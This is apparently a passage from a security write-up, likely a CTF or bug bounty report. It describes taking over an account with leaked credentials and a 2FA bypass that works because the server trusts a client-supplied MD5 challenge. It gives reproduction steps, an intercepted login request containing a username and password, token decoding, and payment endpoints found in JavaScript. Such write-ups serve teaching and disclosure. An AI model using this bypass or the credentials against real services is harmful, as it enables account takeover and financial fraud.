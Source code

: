 ```
      "month": "04",
      "year": "2020"
    },
    "POST": []
  }
}
```
Hell Yeah, we now have an attack vector ! 

## Leaked credentials and 2FA Bypass leading to account takeover
After you get your hands on the credentials, I tried to log on to the connection interface but was confronted to the 2FA check, which required a challenge code received by SMS.  
By inspecting the request and response, it seems that a ```challenge``` and a ```challenge_answer``` parameter is sent with the credentials in order to a successfull connection.  
As we can see in request below, ```challenge``` parameter is a 32 length alpha numeric hash, I'm assuming it's MD5 hash.  
After that, I managed to understand that the ```challenge``` parameter is the MD5 hashed value of the ```challenge_answer```, and it's a bad way to do a 2FA validation.  
Moreover, the ```challenge``` value is not properly saved by backend, so it's then possible to edit it on my side before sending it to the server in order to bypass the 2FA validation.  

##### Steps to reproduce
1 - Generate a MD5 hash from a random string or with leaked challenge_answer
```
$ echo -n bD83Jk27dQ | md5sum
5828c689761cce705a1c84d9b1a1ed5e  -
```
2 - Intercept 2FA validation request and replace with above ```challenge``` and ```challenge_answer``` value :
```
username=brian.oliver&password=V7h0inzX&challenge=5828c689761cce705a1c84d9b1a1ed5e&challenge_answer=bD83Jk27dQ
```
3 - 2FA bypassed, i'm now logged in as ```brian.oliver```, a ```token``` cookie is provided.
By inspecting the assigned token, it's a JSON object which contains ```account_id``` and ```hash```
```
echo eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9 | base64 -d | jq                            
{
  "account_id": "F8gHiqSdpK",
  "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```
4 - Analysis of JavaScript functions : ```/js/app.js```  
Dashboard allows the users to retrieve statements related to their payments for the selected month/year by clicking in the ```Load Transactions``` button.  
An Ajax call is sent to the ```/statements?month=<month>&year=<year>``` endpoint.
```
$(".loadTxns").click(function(){
    let t=$('select[name="month"]').val(),e=$('select[name="year"]').val();
    $(".txn-panel").html(""),$.get("/statements?month="+t+"&year="+e,function(t)
```
We got another endpoint too, about payment : 
```
<a href="/pay/'+s.id+"/"+s.hash+'" class="btn btn-sm btn-success">Pay</a>
```

